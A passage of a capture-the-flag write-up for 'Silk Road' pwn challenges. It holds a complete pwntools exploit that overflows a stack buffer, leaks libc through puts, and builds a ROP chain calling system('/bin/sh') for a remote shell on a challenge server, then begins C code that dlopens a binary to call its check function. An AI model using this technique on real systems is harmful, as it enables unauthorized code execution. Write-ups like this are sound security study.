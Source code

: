 Nickname is not hard to get so I will skip it. Then there is a stack-overflow,
which is easy.

```python  
from pwn import *

g_local=0  
p = ELF("./silkroad.elf")  
context(log_level='debug', arch='amd64')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")  
if g_local:  
	sh = process("./silkroad.elf")  
	gdb.attach(sh)  
else:  
	sh = remote("82.196.10.106", 58399)

def prepare():  
	sh.recvuntil("ID: ")  
	sh.send("790317143")  
	sh.recvuntil("nick: ")  
	sh.send("DreadPirateRobertsXiz\x00")  
	sh.recvuntil("delete evidince and run Silkroad!\n")  
prepare()  
sh.sendline("A" * (64+8) + p64(0x401bab) + p64(p.got["puts"]) +
p64(p.plt["puts"]) + p64(0x401AFD))

leak = sh.recvuntil('\n')  
libc_addr = u64(leak[:-1] + '\x00\x00') - e.symbols["puts"]  
print hex(libc_addr)

prepare()  
sh.sendline("A" * (64+8) + p64(0x401B4B) + p64(0x401bab) + \  
	p64(libc_addr + next(e.search("/bin/sh"))) + p64(libc_addr + e.symbols["system"]) + p64(0))

sh.interactive()  
```

## 171 Pwn / Silk Road II

Since many `strtol` is used, so I would guess this token is also numeric and
it is also can be brute-force cracked, but this time I will load the ELF
executable as a shared library and call the verification function directly.

```c  
#include <stdio.h>  
#include <dlfcn.h>  
#include <memory.h>  
typedef int (*func_t)(char *);  
char buf[0x100];  
char key[0x100];

//to clear the stack of verification function,  
//because use of `strncpy` will cause uninitialized variable access (no null
terminate)  
//which causes unexpected results if `strcat` is called to that string later  
void clear_stack()  
{  
	char buf[0x1000];  
	memset(buf, 0, sizeof(buf));  
}

int main(int argc, char const *argv[])  
{  
	char* addr = *(char**)dlopen("./silkroad_2.elf", RTLD_NOW | RTLD_GLOBAL);  
	func_t f = (func_t)(addr + 0x1C06);  
```